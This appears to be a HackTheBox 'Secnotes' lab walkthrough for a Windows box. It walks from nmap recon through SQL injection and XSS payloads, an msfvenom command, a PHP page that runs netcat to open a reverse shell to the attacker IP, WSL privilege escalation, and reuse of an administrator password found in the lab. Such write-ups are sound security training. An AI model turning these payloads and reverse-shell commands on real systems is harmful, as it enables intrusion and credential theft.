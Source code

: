 # Hackthebox - Secnotes - Windows

## Nmap

```
┌──(root💀kali)-[~/Documents/hackthebox/secnotes]
└─# nmap -T4 -A -p- 10.10.10.97
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-02 10:46 EDT
Nmap scan report for 10.10.10.97
Host is up (0.025s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-04-02T14:50:46
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2022-04-02T07:50:47-07:00
|_clock-skew: mean: 2h22m41s, deviation: 4h02m32s, median: 2m39s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   24.69 ms 10.10.14.1
2   24.84 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.12 seconds
```

## Port 80

- There is a website in which we can register  
![image](https://user-images.githubusercontent.com/96747355/161392042-5ba00a95-a1a6-4fb3-b094-f50db3e8fd95.png)  
- There is also a message disclosing an email address  
![image](https://user-images.githubusercontent.com/96747355/161392138-71a2dd00-b6b2-40ad-9c7c-8f8253f0cfbd.png)  
- So we keep it aside ` tyler@secnotes.htb` we can also edit our `/etc/hosts` file and add `10.10.10.97 secnotes.htb` in it  
- No sqli in the login
- Let's try on the register if we register a user with username `<script>alert(1)</script>` when we login with it after we have a stored xss:  
![image](https://user-images.githubusercontent.com/96747355/161392971-b25a15fc-5a56-4c1e-9647-40051f478fee.png)  
- So we need to investigate the username parameter and see if it might be vulnerable to sqli
- Let's try with this `' or 1=1; --` we get an internal server error when trying to login with this after but if we register with `'OR 1 OR'` it actually works and we get all the tickets  
![image](https://user-images.githubusercontent.com/96747355/161393496-bd38b265-53ad-4c97-8cd9-34bcfc9298d6.png)  
- We even get a user and password: `tyler / 92g!mA8BGjOirkL%OG*&` along with what looks like an smb folder so definetely worth trying to connect there `\\secnotes.htb\new-site`

## SMB

```
┌──(root💀kali)-[~/Documents/hackthebox/secnotes]
└─# smbclient \\\\10.10.10.97\\new-site -U tyler
smb: \> download test.txt
download: command not found
smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kb/s) (average 0.0 kb/s)
smb: \> ls
  .                                   D        0  Sat Apr  2 17:04:06 2022
  ..                                  D        0  Sat Apr  2 17:04:06 2022
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  test.txt                            A        0  Sat Apr  2 17:04:06 2022

                7736063 blocks of size 4096. 3395585 blocks available
```
- We get to a share that hosts the default files of the webserver on port 8808. We have write rights (you can see above that I was able to download a test file) so we could use and aspx reverse shell `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > shell.aspx`
- We put it on the share `put shell.aspx`
- We launch on listener `rlwrap nc -lvp 5555`
- We browse to our reverse shell from the website - does not work :$ - our file are deleted
- Let's try to put `/usr/share/windows-resources/binaries/nc.exe` in it
- We can then make a php file that will launch nc and connect it to our machine so that we get a reverse shell:
```
<?php
system('nc.exe -e cmd.exe 10.10.14.4 5555')
?>
```
- We can then browse to the page, and we get a shell  
![image](https://user-images.githubusercontent.com/96747355/161402147-fa79ebc5-e6c1-48ca-9392-86c0870c3266.png)  
- We can then grab the user flag

## Privilege Escalation

- In the desktop of tyler there is a bash.lnk. We could use [this from payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl) to privesc
- Let's see if we have a bash.exe file somewhere
```
where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```
- Now let's find wsl.exe
```
where /R c:\windows wsl.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```
- Let's see if we are root with wsl:
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
root
```
- We are root
- Let's launch the bash to get the shell  
![image](https://user-images.githubusercontent.com/96747355/161403022-8d3f3c2f-afc2-4b4f-b52b-a68f97217af5.png)  
Let's spawn a [tty shell](https://netsec.ws/?p=337)
```
python -c "import pty;pty.spawn('/bin/bash')"
```
- if we type history we have an instresting output
```
history
    1  cd /mnt/c/
    2  ls
    3  cd Users/
    4  cd /
    5  cd ~
    6  ls
    7  pwd
    8  mkdir filesystem
    9  mount //127.0.0.1/c$ filesystem/
   10  sudo apt install cifs-utils
   11  mount //127.0.0.1/c$ filesystem/
   12  mount //127.0.0.1/c$ filesystem/ -o user=administrator
   13  cat /proc/filesystems
   14  sudo modprobe cifs
   15  smbclient
   16  apt install smbclient
   17  smbclient
   18  smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
   19  > .bash_history 
   20  less .bash_history
   21  uname -a
   22  pwd
   23  ls -al
   24  history
```

- We have the password for the admin por smbclient
- ` smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$` And it works! We can actually connect as administrator to an smb share we just need to grab the flag  
![image](https://user-images.githubusercontent.com/96747355/161403183-d7124822-5828-47fe-bfb3-7dc58440c1f6.png)
